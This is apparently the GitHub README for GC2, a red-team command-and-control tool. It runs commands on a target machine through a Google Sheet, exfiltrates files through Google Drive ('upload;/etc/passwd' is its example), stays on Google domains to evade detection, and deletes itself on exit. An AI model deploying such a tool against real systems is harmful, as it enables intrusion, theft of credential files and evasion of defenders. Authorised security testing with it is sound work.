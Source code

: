 # GC2

<p align="center">
  <img alt="Logo" src="img/GC2.png" height="30%" width="30%">
</p>

GC2 (Google Command and Control) is a Command and Control application that allows an attacker to execute commands on the target machine using Google Sheet and exfiltrates data using Google Drive.

# Why

This program has been developed in order to provide a command and control that does not require any particular set up (like: a custom domain, VPS, CDN, ...) during Red Teaming activities.

Furthermore, the program will interact only with Google's domains (*.google.com) to make detection more difficult.

# Set up

1. **Build executable**
 
    ```bash
    git clone https://github.com/looCiprian/GC2-sheet
    cd GC2-sheet
    go build gc2-sheet.go
    ```

2. **Create a new google "service account"**
 
    Create a new google "service account" using [https://console.cloud.google.com/](https://console.cloud.google.com/), create a .json key file for the service account 

3. **Enable Google Sheet API and Google Drive API**

    Enable Google Drive API [https://developers.google.com/drive/api/v3/enable-drive-api](https://developers.google.com/drive/api/v3/enable-drive-api) and Google Sheet API [https://developers.google.com/sheets/api/quickstart/go](https://developers.google.com/sheets/api/quickstart/go) 

3. **Set up Google Sheet and Google Drive**

    Create a new Google Sheet and add the service account to the editor group of the spreadsheet (to add the service account use its email)
    
    <p align="center">
        <img alt="Sheet Permission" src="img/sheet_permissions.png" height="60%" width="60%">
    </p>
    
    Create a new Google Drive folder and add the service account to the editor group of the folder (to add the service account use its email)
    
    <p align="center">
        <img alt="Sheet Permission" src="img/drive_permissions.png" height="60%" width="60%">
    </p>    

4. **Start the C2**

    ```
    gc2-sheet --key <GCP service account credential file .JSON > --sheet <Google sheet ID> --drive <Google drive ID>
    ```
   
   PS: you can also hardcode the parameters in the code, so you will upload only the executable on the target machine (look at comments in root.go and authentication.go)

## Features

- Command execution using Google Sheet as a console
- Download files on the target using Google Drive
- Data exfiltration using Google Drive
- Exit

### Command execution

The program will perform a request to the spreedsheet every 5 sec to check if there are some new commands.
Commands must be inserted in the column "A", and the output will be printed in the column "B". 

### Data exfiltration file

Special commands are reserved to perform the upload and download to the target machine

 ```
From Target to Google Drive
upload;<remote path>
Example:
upload;/etc/passwd
 ```

### Download file

Special commands are reserved to perform the upload and download to the target machine

 ```
 From Google Drive to Target
download;<google drive file id>;<remote path>
Example:
download;<file ID>;/home/user/downloaded.txt
 ```

### Exit

By sending the command *exit*, the program will delete itself from the target and kill its process

PS: From *os* documentation: 
*If a symlink was used to start the process, depending on the operating system, the result might be the symlink or the path it pointed to*. In this case the symlink is deleted.

### WorkFlow

<p align="center">
  <img alt="Work Flow" src="img/GC2-workflow.png" height="60%" width="60%">
</p>

# Demo

[Demo](https://youtu.be/n2dFlSaBBKo)

# Disclaimer

The owner of this project is not responsible for any illegal usage of this program.

This is an open source project meant to be used with authorization to assess the security posture and for research purposes.

The final user is solely responsible for their actions and decisions. The use of this project is at your own risk. The owner of this project does not accept any liability for any loss or damage caused by the use of this project.

# Support the project

**Pull request** or [![paypal](https://www.paypalobjects.com/en_US/i/btn/btn_donate_SM.gif)](https://www.paypal.com/donate?hosted_button_id=8EWYXPED4ZU5E)
